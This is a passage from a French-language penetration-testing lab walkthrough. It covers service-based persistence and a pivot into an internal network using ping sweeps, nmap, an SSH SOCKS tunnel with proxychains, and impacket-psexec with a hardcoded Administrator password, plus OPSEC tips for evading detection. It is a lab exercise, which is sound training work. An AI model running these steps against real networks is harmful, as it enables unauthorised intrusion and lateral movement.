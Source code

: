    ```bash
   # Activer le service
   systemctl enable system-monitor.service
   systemctl start system-monitor.service
   ```

   **Point d'attention OPSEC :** Dans un environnement réel, vous devriez utiliser des noms de service plus discrets et des connexions moins fréquentes pour éviter la détection.

### Phase 5 : Pivoting vers le réseau interne (25 minutes)

1. **Découverte du réseau interne**

   Depuis le serveur pivot, explorez le réseau interne :

   ```bash
   # Scanner le réseau interne
   for i in {1..254}; do ping -c 1 -W 1 10.0.0.$i | grep "64 bytes"; done
   
   # Scanner les ports du serveur interne découvert
   nmap -p 80,445,3389 10.0.0.200
   ```

   Vous découvrez un serveur Windows (10.0.0.200) dans le réseau interne.

2. **Configuration du pivot SSH**

   Configurez un tunnel SSH pour accéder au réseau interne depuis votre Kali :

   ```bash
   # Sur Kali
   ssh -D 1080 devops@192.168.56.102
   ```

   Configurez proxychains pour utiliser ce tunnel :

   ```bash
   # Modifier /etc/proxychains.conf
   echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf
   ```

3. **Reconnaissance du serveur interne via le pivot**

   Utilisez proxychains pour scanner le serveur interne :

   ```bash
   # Sur Kali
   proxychains nmap -sT -Pn -p 80,445,3389,5985 10.0.0.200
   ```

   Vous découvrez que les ports 80 (HTTP), 445 (SMB), 3389 (RDP) et 5985 (WinRM) sont ouverts.

4. **Tentative d'accès avec les credentials découverts**

   Essayez d'accéder au serveur interne avec les credentials locaux découverts :

   ```bash
   # Sur Kali
   proxychains impacket-psexec -port 445 Administrator:AdminPass2023!@10.0.0.200
   ```

